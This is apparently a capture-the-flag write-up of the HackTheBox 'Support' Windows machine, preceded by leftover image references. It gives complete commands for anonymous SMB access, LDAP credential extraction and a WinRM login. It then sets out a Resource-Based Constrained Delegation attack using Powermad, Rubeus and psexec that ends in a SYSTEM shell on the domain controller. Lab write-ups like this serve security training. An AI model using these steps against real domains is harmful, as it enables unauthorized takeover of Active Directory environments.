








# Support

## Machine Overview

Support is an Easy-difficulty Windows machine that exposes an SMB share
allowing anonymous authentication. After connecting to the share, an
executable file is discovered. This binary is used to query the
machine's LDAP server and retrieve information about domain users.

Through reverse engineering, network analysis, or binary emulation, the
credentials used by the executable to bind to LDAP are recovered. These
credentials allow further LDAP queries to be performed. During
enumeration, a user named `support` is identified, and the `info`
attribute of this account contains what appears to be the user's
password. This allows authentication through WinRM.

After gaining access to the machine, domain enumeration is performed
using SharpHound. BloodHound analysis reveals that the
`Shared Support Accounts` group, which the `support` user belongs to,
has `GenericAll` permissions over the Domain Controller. Using these
privileges, a Resource-Based Constrained Delegation (RBCD) attack is
performed, resulting in a shell with `NT Authority\System` privileges.

------------------------------------------------------------------------

# Initial Enumeration

Initial enumeration revealed that SMB allowed anonymous authentication
through a null session. Listing the available shares showed several
default shares and one non-default share called `support-tools`.

Inside this share, publicly available tools were found, along with an
uncommon file named `UserInfo.exe.zip`, as shown below:



The binary was downloaded for further analysis. Using dnSpy, hardcoded
credentials were discovered inside the executable:





Using the discovered credentials, an LDAP query was performed:

``` bash
ldapsearch -x \
-H ldap://10.129.27.179 \
-D 'ldap@support.htb' \
-W \
-b "DC=support,DC=htb" \
"(sAMAccountName=support)" \
info    
```



Using the discovered password, remote code execution was obtained
through WinRM:

``` bash
evil-winrm -i 10.129.27.179 -u support -p '<password>'
```



------------------------------------------------------------------------

# Privilege Escalation

## Enumeration

After obtaining access as the `support` user, group membership was
enumerated:

``` bash
whoami /groups
```

The output showed that the user `support` is a member of:

`SUPPORT\Shared Support Accounts`

Further enumeration using:

``` powershell
Get-ADDomain
```

revealed that the machine is the Domain Controller:

`dc.support.htb`

SharpHound.exe was uploaded to gather Active Directory information,
which was later analyzed using BloodHound.

The results showed that the `Shared Support Accounts` group has
`GenericAll` privileges over the Domain Controller object. Since the
`support` user is a member of this group, they inherit these privileges.



------------------------------------------------------------------------

## Exploitation

The exploitation process follows the steps provided by the tool's help
menu. `Powermad.ps1` must also be uploaded.

``` bash
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
Get-ADComputer -identity FAKE-COMP01
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
```

The required hashes are generated:



A Kerberos ticket is generated for the Administrator account:

``` bash
./Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
```

The generated ticket is converted using Impacket:

``` bash
python3 ticketConverter.py ticket.kirbi ticket.ccache
```

Finally, the ticket is used to obtain a shell on the Domain Controller:

``` bash
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```


